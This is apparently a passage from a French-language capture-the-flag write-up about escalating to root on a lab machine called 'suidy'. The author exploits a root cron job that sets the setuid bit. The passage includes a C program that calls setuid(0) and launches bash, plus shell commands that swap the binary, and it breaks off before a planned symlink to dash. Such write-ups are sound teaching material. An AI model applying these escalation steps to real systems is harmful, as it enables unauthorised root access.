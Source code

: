 Le fichier texte mentionne un script qui donne à priori le bit setuid sur le binaire.

J'ai surveillé les process avec `pspy` mais tout ce qu'on voyait, c'était ça :

```
2025/05/18 16:17:01 CMD: UID=0    PID=13930  | sh /root/timer.sh
```

J'ai écrit le code C suivant :

```c
#include <unistd.h>
#include <stdlib.h>

int main(void) {
  setuid(0);
  setgid(0);
  system("bash");
  return 0;
}
```

J'ai compilé et remplacé le fichier original :

```console
suidy@suidy:/tmp$ gcc -o getroot getroot.c 
suidy@suidy:/tmp$ cp getroot /home/suidy/suidyyyyy 
cp: no se puede crear el fichero regular '/home/suidy/suidyyyyy': El fichero de texto está ocupado
```

Le fichier est utilisé, car on a notre shell setuid qui tourne.

J'ai ajouté une clé SSH à l'utilisateur et je me suis reconnecté.

```console
suidy@suidy:~$ cp /tmp/getroot suidyyyyy 
cp: no se puede crear el fichero regular 'suidyyyyy': Permiso denegado
```

Cette fois, c'est parce que le propriétaire du binaire est root. Comme on est propriétaire du dossier parent, on peut le déplacer. 

```console
suidy@suidy:~$ cp /tmp/getroot suidyyyyy 
cp: no se puede crear el fichero regular 'suidyyyyy': Permiso denegado
suidy@suidy:~$ mv suidyyyyy yolo
suidy@suidy:~$ cp /tmp/getroot suidyyyyy 
suidy@suidy:~$ ls -al suidyyyyy
-rwxr-xr-x 1 suidy suidy 16712 may 18 16:23 suidyyyyy
suidy@suidy:~$ ls -al suidyyyyy
-rwxr-xr-x 1 suidy suidy 16712 may 18 16:23 suidyyyyy
suidy@suidy:~$ ls -al suidyyyyy
-rwsr-sr-x 1 suidy suidy 16712 may 18 16:23 suidyyyyy
```

Visiblement le cronjob ne fait que mettre le bit setuid, il ne change pas le propriétaire...

À la place, je vais faire un lien symbolique vers `dash` qui appartient déjà à root :
